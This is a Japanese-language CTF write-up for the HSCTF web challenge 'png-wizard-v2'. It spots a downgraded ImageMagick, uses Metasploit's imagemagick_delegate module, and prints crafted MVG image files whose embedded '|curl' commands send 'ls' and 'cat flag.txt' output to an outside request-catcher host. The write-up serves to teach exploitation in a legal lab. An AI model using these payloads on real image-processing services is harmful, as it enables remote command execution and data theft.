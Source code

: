 # png-wizard-v2:web:459pts
Looks like some intern messed up, we've reverted to an older version for now.  
[http://web1.hsctf.com:8005/](http://web1.hsctf.com:8005/)  
Downloads  
[png-wizard-v2.zip](png-wizard-v2.zip)  

# Solution
URLとソースが配布されている。  
どうやら[png-wizard](../png-wizard/)の強化問題のようだ。  
サイトの構成は変わっていない。  
PNG Wizard  
[site1.png](site/site1.png)  
こちらもバージョンなどが詳細に表示されている。  
[site2.png](site/site2.png)  
ここでImageMagickのバージョンが6.9.10-23から6.8.9-9に変わっていることがわかる。  
明らかに下がっているため、Exploitしろとのことだと予想できる。  
Metasploitでペイロードを探すと以下のようなものが見つかる。  
```bash
$ msfconsole
~~~
msf6 > search ImageMagick

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/coppermine_piceditor             2008-01-30       excellent  Yes    Coppermine Photo Gallery picEditor.php Command Execution
   1  exploit/multi/fileformat/ghostscript_failed_restore  2018-08-21       excellent  No     Ghostscript Failed Restore Command Execution
   2  exploit/unix/fileformat/ghostscript_type_confusion   2017-04-27       excellent  No     Ghostscript Type Confusion Arbitrary Command Execution
   3  exploit/unix/fileformat/imagemagick_delegate         2016-05-03       excellent  No     ImageMagick Delegate Arbitrary Command Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/unix/fileformat/imagemagick_delegate
```
`exploit/unix/fileformat/imagemagick_delegate`を利用してペイロードを作成してみる。  
編集のしやすさのためmvgを選択する。  
```bash
msf6 > use 3
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/fileformat/imagemagick_delegate) > set payload payload/cmd/unix/generic
payload => cmd/unix/generic
msf6 exploit(unix/fileformat/imagemagick_delegate) > set CMD sleep 10
CMD => sleep 10
msf6 exploit(unix/fileformat/imagemagick_delegate) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   SVG file
   1   MVG file
   2   PS file


msf6 exploit(unix/fileformat/imagemagick_delegate) > set target 1
target => 1
msf6 exploit(unix/fileformat/imagemagick_delegate) > exploit

[+] msf.png stored at /msf.png
msf6 exploit(unix/fileformat/imagemagick_delegate) > exit
$ cat /msf.png
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|sleep 10'
pop graphic-context
pop graphic-context
```
出来上がったファイルをサイトに送信すると、応答が遅れた。  
コマンドが実行できるようなのでcurlを内部で走らせ、実行結果を外部でキャッチする。  
まずは以下のファイルでlsを行う。  
```bash
$ cat ls.png
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|curl xxxxxxxxxxxxx.x.pipedream.net?s=`ls`'
pop graphic-context
pop graphic-context
```
`/?s=flag.txt`のリクエストを得たので、以下のファイルでcatする。  
```bash
$ cat get_flag.png
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|curl xxxxxxxxxxxxx.x.pipedream.net?s=`cat flag.txt`'
pop graphic-context
pop graphic-context
```
`/?s=flagdid_you_ever_hear_the_tragedy_of_darth_imagemagick_the_wise_6889108`のリクエストを得た。  
消えた`{`と`}`を修正してやればflagとなった。  

## flag{did_you_ever_hear_the_tragedy_of_darth_imagemagick_the_wise_6889108}